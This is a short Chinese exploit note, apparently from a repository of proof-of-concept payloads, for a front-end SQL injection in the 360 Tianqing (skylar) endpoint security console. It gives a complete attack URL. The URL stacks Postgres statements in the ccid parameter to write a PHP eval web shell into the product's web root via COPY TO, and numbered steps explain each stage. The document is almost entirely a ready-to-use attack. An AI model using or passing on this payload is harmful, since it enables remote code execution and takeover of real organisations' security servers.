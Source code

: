 ## 天擎-前台sql注入
注入写shell:
https://192.168.24.196:8443/api/dp/rptsvcsyncpoint?ccid=1';create table O(T TEXT);insert into O(T) values('<?php @eval($_POST[1]);?>');copy O(T) to 'C:\Program Files (x86)\360\skylar6\www\1.php';drop table O;-- 
利用过程:
1. 通过安装包安装的一般都有root权限，因此该注入点可尝试写shell
2. 通过注入点，创建一张表 O
3. 为 表O 添加一个新字段 T 并且写入shell内容
4. Postgres数据库 使用COPY TO把一个表的所有内容都拷贝到一个文件(完成写shell)
5. 删除 表O
